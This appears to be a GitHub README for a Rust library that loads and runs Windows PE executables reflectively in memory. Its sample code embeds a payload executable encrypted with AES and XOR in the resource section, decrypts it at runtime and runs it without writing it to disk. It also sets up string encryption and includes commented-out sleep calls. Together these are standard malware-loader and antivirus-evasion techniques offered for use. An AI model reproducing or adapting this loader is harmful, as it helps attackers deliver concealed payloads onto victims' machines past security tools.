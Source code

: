 ### reflective_loader_rs
Library that allows running PE files in memory

Installation
- Clone the Repository
```PowerShell
git clone https://github.com/tftftftft/reflective_loader_rs.git
```
- Add to dependencies ( Cargo.toml )
use runpe::runpe::reflective_loader;
```Rust
[dependencies]
rspe_lib = { path = "../rspe_lib" }
```


LITCRYPT for strings in code, don't forget to set LITCRYPT_ENCRYPT_KEY var. 
[Repo](https://github.com/anvie/litcrypt.rs)

```PowerShell
$env:LITCRYPT_ENCRYPT_KEY="myverysuperdupermegaultrasecretkey"
```
Sample code demonstrating how to use the library is commented within the lib.rs file.

```rust
#[link_section = ".rsrc"]
static DATA: &[u8] = include_bytes!("..\\payload_debug_xor_aes.exe");

// Main function
#[no_mangle]
 pub extern "C" fn main(_argc: isize, _argv: *const *const u8) -> isize {
     // let now = Instant::now();

     // make_sleep(5).expect("sleep failed");
     // println!("{}", now.elapsed().as_secs());

     let key = "16 BYTES KEY"; //String

     // Convert to bytes and create key_array in one step.
     let key_array: [u8; 16] = key
         .as_bytes()
         .try_into()
         .expect("Failed to convert key into a 16 byte array");

     let cipher = Cipher::new_128(&key_array);
     let decrypted_aes = cipher.cbc_decrypt(&key_array, DATA);
     let decrypted_xor = xor_decrypt(&key_array, &decrypted_aes);

     unsafe {
         reflective_loader(decrypted_xor.clone());
     };

    0
}
```

Environment Support
- This library supports a no_std environment.
